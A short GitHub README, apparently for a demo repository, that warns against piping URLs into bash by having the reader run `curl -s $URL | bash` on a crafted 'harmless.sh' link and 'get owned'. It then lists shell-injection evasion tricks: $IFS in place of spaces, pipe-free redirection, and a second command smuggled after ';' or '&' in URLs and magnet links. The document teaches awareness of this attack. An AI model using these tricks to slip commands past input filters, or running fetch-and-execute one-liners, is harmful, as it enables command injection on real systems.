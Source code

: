 # latrina

* go to https://raw.githubusercontent.com/kusky3/latrina/main/test''/harmless.sh
* read the content
* copy the url  
* run `curl -s $URL | bash` 
* get owned and learn to escape the urls

## url encoding copypaste nightmares 
#### setting string variables without quotes    
`a=('a')`  
#### separating fields without spaces 
`echo$IFS$a`
#### separating fields without spaces or curly brackets
`a=('a');echo$IFS$a`  
`echo$IFS$9a`  
#### piping without pipes  
`wc -l < <(ls)`     
#### starting code execution without ampersand
`curl http://localhost/;whoami`
#### torrent magnets
`aria2c magnet:?xt=urn:btih:test&dn=linux.iso&whoami`
